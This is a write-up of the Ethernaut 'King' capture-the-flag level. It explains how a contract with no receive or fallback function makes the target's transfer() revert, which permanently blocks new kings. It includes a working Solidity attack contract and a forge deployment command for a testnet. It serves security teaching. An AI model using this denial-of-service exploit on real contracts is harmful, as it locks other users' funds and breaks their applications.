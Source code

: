 <div align="center">

<img src="../assets/levels/9-king.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/9-king-requirements.webp" width="800px"/>

## The hack

In this level, the goal is to become the king and then make sure that the contract is not able to transfer the prize to the next king. In other words, we have to become king and then break the game.

This requires an understanding of how the now-considered deprecated `transfer` works in solidity. This function throws an error if the transfer fails, but doesn't return a boolean value. This means that if the transfer fails, the transaction will revert.

```javascript
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

First, we need to check the `prize` function to see how much ether is required to pass the `require` statement and become king.

Now, that we are king, how can we make sure that no one else can dethrone us? How to make sure the `transfer()` function reverts systematically after us? The answer is pretty simple, we just need to make sure that our king contract can't receive any ether. As long as no `receive()` or `fallback()` function is defined, the contract will not be able to receive any ether via the King contract, which will effectively prevent anyone from becoming the new king after us.

## Solution

Deploy a contract that can't receive ether via the "normal" way (no `receive()` or `fallback()` functions).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKing {
    function prize() external returns (uint256);
}

contract FallenKing {
    address private immutable king;

    constructor(address _king) {
        king = _king;
    }

    function attack() external payable {
        uint256 prize = IKing(king).prize();
        (bool success, ) = king.call{value: prize}("");
        require(success, "Transfer failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/9_King.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- `send` and `transfer` are now considered deprecated. They should be replaced by `call` with a proper Check-Effect-Interaction pattern to prevent re-entrancy.
- <b>External calls must be used with caution and must handle errors properly.</b>

## References

https://blog.chain.link/defi-security-best-practices/
https://www.kingoftheether.com/postmortem.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
